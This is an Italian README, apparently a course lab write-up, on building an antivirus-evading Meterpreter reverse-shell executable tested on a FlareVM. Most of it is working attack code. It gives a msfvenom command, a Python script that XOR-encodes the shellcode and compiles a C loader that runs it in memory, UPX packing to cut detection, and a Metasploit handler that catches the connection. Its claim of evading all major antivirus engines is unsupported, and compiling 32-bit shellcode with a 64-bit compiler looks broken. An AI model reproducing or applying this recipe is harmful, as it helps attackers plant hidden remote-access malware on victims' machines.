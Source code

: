 
# Pratica S9/L1 - **Creazione di un Payload Offuscato** 🚀

Questo progetto documenta la creazione di un payload `Meterpreter` irriconoscibile da VirusTotal, mantenendone la funzionalità e garantendo l'esecuzione su un ambiente Windows, come **FlareVM**. Il processo include tecniche avanzate di offuscamento, encoding personalizzato e il trasferimento sicuro tra ambienti virtualizzati.

---

## ⚙️ **Prerequisiti**
Prima di iniziare, assicurati di avere:
- 🐧 **Kali Linux** come macchina virtuale.
- 🪟 **Windows FlareVM** come sistema di test.
- 🖥️ **VirtualBox** o un altro hypervisor con supporto per cartelle condivise.
- 🔧 Strumenti necessari:
  - `msfvenom`
  - `gcc` (MinGW per Kali Linux)
  - `python3`
  - `upx` (opzionale per il packing).

---

## 📜 **Passaggi principali**

### 1️⃣ **Generazione del payload di base**
Creare un payload `Meterpreter reverse_tcp` con **msfvenom**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=5959 -a x86 --platform windows -f raw -o base_payload.raw
```
> Questo genera un payload grezzo che sarà successivamente offuscato.

---

### 2️⃣ **Offuscamento personalizzato con XOR**
Creare uno script Python per codificare il payload con l'algoritmo **XOR** e generare un decoder runtime in C:
```python
import random
import os

def create_executable(payload_file, output_file):
    # Leggi il payload originale
    with open(payload_file, "rb") as f:
        payload = f.read()

    # Genera una chiave XOR casuale
    key = random.randint(1, 255)

    # Codifica il payload con XOR
    encoded_payload = bytearray([byte ^ key for byte in payload])

    # Crea il decoder in C
    decoder = f'''
#include <windows.h>
unsigned char payload[] = {{
    {", ".join(f"0x{byte:02x}" for byte in encoded_payload)}
}};
int main() {{
    unsigned char key = {key};  // Chiave XOR
    int length = sizeof(payload);
    for (int i = 0; i < length; i++) {{
        payload[i] ^= key;
    }}
    void (*exec)() = (void (*)())payload;
    exec();
    return 0;
}}
    '''

    # Scrivi il decoder in un file temporaneo
    with open("decoder.c", "w") as f:
        f.write(decoder)

    # Compila il file C in un eseguibile usando MinGW
    os.system(f"x86_64-w64-mingw32-gcc -o {output_file} decoder.c")
    os.remove("decoder.c")

create_executable("base_payload.raw", "final_payload.exe")
```

Esegui lo script:
```bash
python3 xor_coding.py
```

---

### 3️⃣ **Packing con UPX (opzionale)** 🧊
Per ridurre ulteriormente la probabilità di rilevamento, utilizza il tool **UPX**:
```bash
upx --best --ultra-brute final_payload.exe
```

---

### 4️⃣ **Trasferimento del file su Windows**
Configurare una **cartella condivisa** tra Kali Linux e Windows per trasferire il file generato:
1. In VirtualBox, aggiungi una cartella condivisa denominata `CONDIVISA` e abilita il **montaggio automatico**.
2. Monta la cartella su Kali Linux:
   ```bash
   sudo mount -t vboxsf CONDIVISA /mnt/CONDIVISA
   ```
3. Copia il file `final_payload.exe` nella cartella condivisa:
   ```bash
   cp final_payload.exe /mnt/CONDIVISA
   ```
4. Accedi al file su Windows dalla cartella condivisa.

---

### 5️⃣ **Test su FlareVM** 🧪
Esegui il payload su **Windows FlareVM** per verificare il funzionamento:
1. Configura Metasploit sulla macchina di Kali Linux:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.23
   set LPORT 5959
   exploit
   ```
2. Esegui il file `final_payload.exe` su FlareVM e verifica che la connessione venga stabilita.

---

## 📊 **Risultati**
- **Rilevamento su VirusTotal**: Il file generato risulta **irriconoscibile** da tutti i principali motori antivirus grazie all'uso combinato di offuscamento XOR, decoder runtime personalizzato e packing.
- **Compatibilità**: Il file è eseguibile su Windows e compatibile con FlareVM per il test.

---

## 🛠️ **Debugging e miglioramenti**
Se il file non funziona correttamente:
- Assicurati che **x86_64-w64-mingw32-gcc** sia configurato correttamente.
- Testa il file senza **UPX**, in quanto alcuni packer possono interferire con l'esecuzione.
- Verifica il payload grezzo usando `msfvenom` per garantire che non sia corrotto.

---